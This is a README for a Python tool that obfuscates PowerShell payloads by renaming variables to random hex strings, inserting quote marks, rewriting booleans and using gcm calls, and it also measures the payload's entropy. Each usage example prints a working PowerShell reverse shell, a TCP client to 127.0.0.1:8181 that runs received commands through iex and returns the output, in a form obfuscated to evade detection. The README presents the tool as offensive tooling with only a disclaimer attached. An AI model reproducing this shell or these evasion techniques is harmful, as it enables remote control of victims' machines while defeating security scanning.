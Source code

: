 # auto_powershell_obfuscation - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt

New Payload 

$48b23f7aaadc4e96932c24c2fd6c1430 = N""ew-Object Sy''s""tem.Net.Sockets.TCPClient('127.0.0.1',8181);$be30aeef96bc427db72645b20e22b4bc = $48b23f7aaadc4e96932c24c2fd6c1430.GetStream();[byte[]]$0e2e781a1e26488f98d4d5057254669d = 0..65535|%{0};while(($143b0ba8bb9d4270963f5d48892cf60e = $be30aeef96bc427db72645b20e22b4bc.Read($0e2e781a1e26488f98d4d5057254669d, 0, $0e2e781a1e26488f98d4d5057254669d.Length)) -ne 0){;$b98b18b0b96a4336ab5c1b5f53172f6e = (New-Object -TypeName Syst""em.Text.ASCIIEncoding).GetString($0e2e781a1e26488f98d4d5057254669d,0, $143b0ba8bb9d4270963f5d48892cf60e);$82f0188570bb4842ae4d302dec137166 = (i""ex $b98b18b0b96a4336ab5c1b5f53172f6e 2>&1 | Out-String );$8a7ef545026b4a2e807bc6a667c70cbe = $82f0188570bb4842ae4d302dec137166 + 'PS ' + (pwd).Path + '> ';$2e6d40d1196a40569af7fac1184d3696 = ([text.encoding]::ASCII).GetBytes($8a7ef545026b4a2e807bc6a667c70cbe);$be30aeef96bc427db72645b20e22b4bc.Write($2e6d40d1196a40569af7fac1184d3696,0,$2e6d40d1196a40569af7fac1184d3696.Length);$be30aeef96bc427db72645b20e22b4bc.Flush()};$48b23f7aaadc4e96932c24c2fd6c1430.Close()

New payload entropy: 5.138376499232824
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Gcm

**gcm** mode uses a trick that replaces cmdlets with a gcm call. This method reduces the entropy of our payload but also makes it slightly less efficient.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m gcm -f .\payload.txt

```

### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```
